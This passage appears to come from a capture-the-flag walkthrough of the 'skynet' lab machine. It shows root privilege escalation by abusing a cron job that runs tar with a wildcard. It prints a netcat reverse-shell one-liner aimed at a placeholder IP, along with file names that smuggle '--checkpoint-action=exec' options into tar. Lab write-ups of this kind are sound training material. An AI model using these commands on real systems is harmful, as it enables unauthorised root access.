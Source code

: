 You will eventually spot the `CRON` job is running on `/home/milesdyson/backups/backup.sh`. Let's investigate:

```
www-data@skynet:/tmp$ ls -la /home/milesdyson/backups/backup.sh
-rwxr-xr-x 1 root root 74 Sep 17  2019 /home/milesdyson/backups/backup.sh

www-data@skynet:/tmp$ cat /home/milesdyson/backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

So, we can't edit the file, but what we can do, is the exploitation of the wildcard in the script.  
You can read more about this vulnerability [here](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/).  

Navigate to the `/var/www/html` and do the following:
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <your_port> >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```
Wait for a `CRON` job to execute your `shell.sh`.  
Catch the root shell!

## Takeaway
- Enumeration can easily take half of the time of work on the machine.
- "Connecting the dots" is a useful skill for penetration testing.
- Take your time with the exploitation of the `CRON` jobs, it can take a while to be executed.
